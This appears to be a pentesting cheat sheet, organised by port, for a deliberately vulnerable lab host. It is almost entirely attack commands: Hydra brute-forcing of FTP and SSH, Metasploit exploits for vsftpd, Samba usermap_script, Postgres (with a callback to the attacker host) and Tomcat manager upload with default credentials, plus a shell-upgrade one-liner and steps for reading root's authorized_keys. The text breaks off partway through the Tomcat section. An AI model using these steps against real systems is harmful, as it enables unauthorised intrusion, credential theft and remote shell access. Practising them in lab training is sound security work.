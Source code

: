 #### Nmap

 nmap -Pn -sV Target

### Port 21
#### Hydra

sudo hydra -L user.txt -P pass.txt target ftp   ----> FTP

#### Vsftpd Exploit

In msfconsole

search vsftpd version

use exploit/unix/ftp/
show options
set RHOSTS ip
exploit

### Port 22

#### Hydra

hydra -L user.txt -P pass.txt 192.168.1.103 ssh

#### SSH BFA
use **auxiliary/scanner/ssh/ssh_login**
show options

set RHOSTS ip

set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

or 

set USER_FILE /usr/share/user.txt
set PASS_FILE /usr/share/pass.txt

or 

**set STOP_ON_SUCCESS true**

set VERBOSE true

exploit

If sessions opened type
sessions
sessions 1 or 2 or whatever the shell opened is or sessions -u 1 or 2
shell (For better view type shell, it will look like linux)

Connect: ssh username@ip

### Port 139 & 445 (Samba)

use **exploit/multi/samba/usermap_script**
show options
set RHOSTS ip
exploit

id , uname -a, python -c 'import pty:pty.spawn("/bin/bash")'

### Port  5432 (Postgres)

search postgres
use **exploit/linux/postgres/postgres_payload**
set RHOSTS ip
set LHOST ip
run
sessions -u 1 or 2 or whichever

### Port 5900 (VNC)

use **auxiliary/scanner/vnc/vnc_login**
set RHOSTS
exploit

after getting password go to terminal

vncviewer vulnerable_ip

For authorized ssh keys after login:
cd root
ls -la
cd .ssh
ls -la
cat authorized_keys

### Port 8180 (Not default port) (Tomcat)

use exploit/multi/http/tomcat_mgr_upload

show options

set RHOSTS

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat
